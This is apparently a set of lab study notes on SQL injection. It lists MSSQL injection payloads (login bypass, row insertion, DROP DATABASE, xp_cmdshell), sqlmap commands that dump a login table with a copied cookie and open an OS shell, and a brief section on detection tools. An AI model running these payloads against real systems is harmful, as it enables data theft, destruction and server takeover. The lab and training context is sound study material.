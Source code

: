 # SQL Injection

## Perform SQL injection attacks

- Perform an SQL injection attack on an MSSQL database  
    SQL Payload: blah' or 1=1 --  
    blah';insert into login values ('john','apple123'); --  
    blah';create database mydatabase; --  
    blah'; DROP DATABASE mydatabase; --  
    blah'; DROP TABLE table_name; --  
    blah';exec master..xp_cmdshell 'ping www.certifiedhacker.com -l 65000 -t'; --  

- Perform an SQL injection attack against MSSQL to extract databases using sqlmap  
    `sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookievalue that you copied in Step 8]" --dbs`  
    `sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copiedin Step 8]" -D moviescope --tables`  
    `sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copiedin Step 8]" -D moviescope -T User_Login --dump`  
    `sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1"--cookie="[cookie value which you have copied in Step 8]" --os-shell` --> TASKLIST  
    --technique=BEUSTQ
    --dbms=mssql or --dbms=mysql
    --dump

## Detect SQL injection vulnerabilities using various SQL injection detection tools

- Detect SQL injection vulnerabilities using DSSS

```bash
python3 dsss.py
python3 dsss.py -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step 11]"
```

- Detect SQL injection vulnerabilities using OWASP ZAP  
    Alerts tab
